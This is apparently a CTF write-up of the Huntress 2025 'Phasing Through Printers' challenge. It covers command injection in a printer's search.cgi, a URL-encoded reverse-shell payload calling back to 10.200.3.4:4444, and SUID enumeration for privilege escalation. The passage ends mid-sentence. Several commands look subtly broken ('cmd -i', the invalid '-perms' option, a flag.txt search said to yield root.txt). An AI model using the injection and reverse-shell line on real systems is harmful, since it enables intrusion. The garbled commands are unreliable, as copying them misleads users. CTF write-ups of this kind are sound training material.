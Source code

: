 ```yaml
---
title: "Huntress CTF 2025 Writeup: Phasing Through Printers"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Command Injection"]
---
```


> I found this printer on the network, and it seems to be running... a weird web page... to search for drivers?
---

![phasing-through-printers-1.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-1.png)
Submitting the form would send a HTTP GET request to `cgi-bin/search.cgi?q=` with parameter `q`. I decided to do some common injections on the input field, and found that it was vulnerable to os command injection.


![phasing-through-printers-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-2.png)

I then decided to get an interactive reverse shell, by firstly listening on port `4444`:

![phasing-through-printers-3.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-3.png)

And then using [revshells](https://www.revshells.com/) to generate a shell command for the server. Upon sending the command `q=;cmd%20-i%20>%26%20%2Fdev%2Fudp%2F10.200.3.4%2F4444%200>%261`, I was In!

![phasing-through-printers-4.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/phasing-through-printers-4.png)

I first ran the `find / -type f -name flag.txt` to find where the flag was stored. And from the result, I found out it was stored in the `root.txt` however, I couldn't view it due to permissions. So I knew the next phase of the challenge was to do privilege escalation, so I ran the command `find / -type f -perms 4000` to look for a file thats suid vulnerable.

I found a file called 
